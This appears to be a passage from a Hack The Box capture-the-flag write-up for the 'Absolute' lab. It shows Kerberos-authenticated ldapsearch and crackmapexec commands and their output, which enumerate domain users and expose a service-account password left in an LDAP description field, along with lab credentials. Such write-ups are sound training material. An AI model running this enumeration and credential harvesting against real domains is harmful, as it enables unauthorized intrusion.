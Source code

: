 
# Auth as svc_smb
### Method 1, ldapsearch
Annonying part:

```bash
faketime '2023-11-20 19:00:00' ldapsearch -H ldap://dc.absolute.htb -Y GSSAPI -b "cn=users,dc=absolute,dc=htb"
SASL/GSSAPI authentication started
ldap_sasl_interactive_bind: Local error (-2)
        additional info: SASL(-1): generic failure: GSSAPI Error: No credentials were supplied, or the credentials were unavailable or inaccessible (No Kerberos credentials available (default cache: FILE:/tmp/krb5cc_1000))
        ```

To fix this, make sure that `dc.absolute.htb` comes before `absolute.htb` in `/etc/hosts`. That’s because Kerberos is doing a reverse lookup on the IP to get the server name. My OS checks the hosts file, and gets the first host with that IP. Then when it tries to look up that host (absolute.htb) in the Kerberos DB, it doesn’t find one, and returns Server not found in Kerberos database. Props to Ippsec for figuring this out - * https://www.youtube.com/watch?v=rfAmMQV_wss&t=34m45s

```bash
faketime '2023-11-20 19:08:00' ldapsearch -H ldap://dc.absolute.htb -Y GSSAPI -b "cn=users,dc=absolute,dc=htb"
faketime '2023-11-20 19:08:00' ldapsearch -H ldap://dc.absolute.htb -Y GSSAPI -b "cn=users,dc=absolute,dc=htb" 'user'
faketime '2023-11-20 19:08:00' ldapsearch -H ldap://dc.absolute.htb -Y GSSAPI -b "cn=users,dc=absolute,dc=htb" 'user' 'description'

# svc_smb, Users, absolute.htb
dn: CN=svc_smb,CN=Users,DC=absolute,DC=htb
description: AbsoluteSMBService123!
```

##### Method 2, CME
It's better

```bash
faketime '2023-11-20 19:14:00' crackmapexec ldap $IP -u d.klay -p 'Darkmoonsky248girl' -k --users
SMB         10.129.229.59   445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
LDAP        10.129.229.59   389    DC               [+] absolute.htb\d.klay:Darkmoonsky248girl 
LDAP        10.129.229.59   389    DC               [*] Total of records returned 20
LDAP        10.129.229.59   389    DC               Administrator                  Built-in account for administering the computer/domain
LDAP        10.129.229.59   389    DC               Guest                          Built-in account for guest access to the computer/domain
LDAP        10.129.229.59   389    DC               krbtgt                         Key Distribution Center Service Account
LDAP        10.129.229.59   389    DC               J.Roberts                      
LDAP        10.129.229.59   389    DC               M.Chaffrey                     
LDAP        10.129.229.59   389    DC               D.Klay                         
LDAP        10.129.229.59   389    DC               s.osvald                       
LDAP        10.129.229.59   389    DC               j.robinson                     
LDAP        10.129.229.59   389    DC               n.smith                        
LDAP        10.129.229.59   389    DC               m.lovegod                      
LDAP        10.129.229.59   389    DC               l.moore                        
LDAP        10.129.229.59   389    DC               c.colt                         
LDAP        10.129.229.59   389    DC               s.johnson                      
LDAP        10.129.229.59   389    DC               d.lemm                         
LDAP        10.129.229.59   389    DC               svc_smb                        AbsoluteSMBService123!
LDAP        10.129.229.59   389    DC               svc_audit                      
```
